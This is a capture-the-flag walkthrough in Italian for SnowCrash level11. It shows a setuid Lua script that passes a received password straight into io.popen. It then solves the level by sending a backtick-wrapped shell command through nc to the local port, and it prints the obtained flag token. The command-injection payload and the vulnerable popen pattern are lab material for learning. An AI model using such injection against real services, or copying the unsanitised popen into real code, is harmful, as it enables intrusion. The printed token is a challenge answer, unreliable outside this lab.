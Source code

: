 # Level11
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
troviamo uno script lua con al suo interno il seguente codice:
```lua
 1  #!/usr/bin/env lua
 2  local socket = require("socket")
 3  local server = assert(socket.bind("127.0.0.1", 5151))
 4  function hash(pass)
 5    prog = io.popen("echo "..pass.." | sha1sum", "r")
 6    data = prog:read("*all")
 7    prog:close()
 8    data = string.sub(data, 1, 40)
 9    return data
10  end

11  while 1 do
12    local client = server:accept()
13    client:send("Password: ")
14    client:settimeout(60)
15    local l, err = client:receive()
16    if not err then
17        print("trying " .. l)
18        local h = hash(l)
19        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
20            client:send("Erf nope..\n");
21        else
22            client:send("Gz you dumb*\n")
23        end
24    end
25    client:close()
26  end
```
Lo script si connette alla porta `5151` analizzando la password che gli viene passata
e la prima cosa importante che possiamo notare è l'utilizzo dell'input in `popen`
senza alcun controllo, quindi quindi basterà inserire un comando eseguibile in bash.
Eseguendo lo script ci avvisa che la porta è già occupata, in effetti con il comando
`netstat -tulpn | grep LISTEN` abbiamo il seguente output:
```
tcp        0      0 0.0.0.0:4646            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:4747            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::4242                 :::*                    LISTEN      -
```
Quindi lo script è già avviato e in ascolto sulla porta `5151`

### 2 passaggio
Avviamo nc con `nc localhost 5151` e nell'input scriviamo ``getflag` > /tmp/flag_11`
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag` > /tmp/flag_11
Erf nope..
```
e con `cat /tmp/flag_11` abbiamo:
```bash
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
